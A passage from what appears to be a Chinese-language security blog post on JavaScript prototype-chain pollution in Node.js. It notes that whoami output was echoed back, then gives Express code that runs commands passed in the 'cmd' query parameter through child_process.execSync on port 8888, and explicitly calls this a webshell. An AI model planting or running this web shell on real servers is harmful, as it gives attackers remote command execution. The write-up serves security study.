 ```javascript
Reflect.construct(target, argumentsList[, newTarget])
```


target为Function，argunmentList则为需要传入的方法，再此处就将结果返回回来，在这里就可以看见我们执行了whoami并回显回来了

![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_56_rit8HjEY.png)

在未使用return 返回结果的时候，使用该方式发现又可以代码执行，那么再启动一个端口，用于执行命令，就达到了webshell的功能
这里我图方便没有使用nodejs的http模块启动，而是使用express模块执行（需要下载express库)
代码

```javascript
const express_1 = require('express')
const app_1 = new express_1()
app_1.get('/', (req_1, res_1)=>{
    res_1.header('Content-Type','text/html')
    res_1.send(require('child_process').execSync(req_1.query.cmd))
})
app_1.listen('8888')
```
